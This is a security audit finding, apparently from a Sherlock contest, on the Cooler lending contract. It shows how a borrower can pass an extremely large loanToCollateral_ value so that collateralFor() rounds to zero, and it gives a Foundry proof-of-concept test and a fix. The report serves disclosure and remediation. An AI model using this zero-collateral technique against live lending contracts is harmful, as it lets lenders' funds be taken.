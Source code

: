 Tangy Iron Mockingbird

medium

# Possibility of obtaining borrows providing 0 collateral
## Summary
Borrowers have the ability to input a significantly high value for **`loanToCollateral_`** when utilizing the **`requestLoan()`** function. This can lead to a situation where the calculated collateral value, as determined by the **`collateralFor()`** becomes 0.
## Vulnerability Detail
The processing of borrower requests is managed by the **`Cooler.sol`** contract.
The **`requestLoan()`** has a **`loanToCollateral_`** input that indicates how much tokens debt the borrower will recieve for a collateral unit provided.
```solidity
function requestLoan(uint256 amount_, uint256 interest_, uint256 loanToCollateral_, uint256 duration_) external returns (uint256 reqID) {...}
```
To determine the required amount of tokens that a borrower must use as collateral, the **`collateralFor()`** employs the **`loanToCollateral_`** ratio.
```solidity
function collateralFor(uint256 amount_, uint256 loanToCollateral_) public view returns (uint256) {
        return (amount_ * (10 ** collateral().decimals())) / loanToCollateral_;
    }
```
If a malicious borrower input an excessively high value for **`loanToCollateral_`**, the outcome will lead to a collateral requirement of 0.
## Example
Let's consider the scenario:
-Bob intends to borrow 1000 debt tokens, thus entering **`amount_ = 1000`** and **`loanToCollateral_ = 1000000000e18`**.
-Through the **`collateralFor()`** calculation, the required collateral tokens for Bob are determined: **`(1000 * e18)/1000000000e18`**. This computation yields a value of 0.
-Alice approves it. As a result, Alice transfers 1000 debt tokens to Bob. However, Bob contributes 0 collateral tokens.
## Impact
Lenders face the risk of losing their funds when they are unable to reclaim the collateral in cases where borrowers fail to make their required payments.
## POC
```solidity
uint256 public constant LOAN_TO_COLLATERAL = 100000000000000 * 1e18;
uint256 public constant LOAN_AMOUNT = 1000;

function testRequestWithCollateral0() public {
        
        // test inputs
        uint256 amount_ = bound(LOAN_AMOUNT, 0, MAX_DEBT);
        bool directRepay = true;
        bool callbackRepay = false;
        // test setup
        cooler = _initCooler();
        (uint256 reqID, ) = _requestLoan(amount_); //LOAN_TO_COLLATERAL = 100000000000000 * 1e18 VERY BIG RATIO

        vm.startPrank(lender);
        // aprove debt so that it can be transferred by cooler
        debt.approve(address(cooler), amount_);
        cooler.clearRequest(reqID, directRepay, callbackRepay);
        vm.stopPrank();

        uint256 Contract_balance = collateral.balanceOf(address(cooler));
        uint256 User_balance = debt.balanceOf(owner);

        assertEq(Contract_balance,0);
        assertEq(User_balance, LOAN_AMOUNT);
    }
```
## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Cooler.sol#L98L103
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Cooler.sol#L371L373
## Tool used

Manual Review

## Recommendation
Ensure the utilization of a maximum **`loanToCollateral_`** ratio or implement checks to guarantee that the collateral remains above zero.
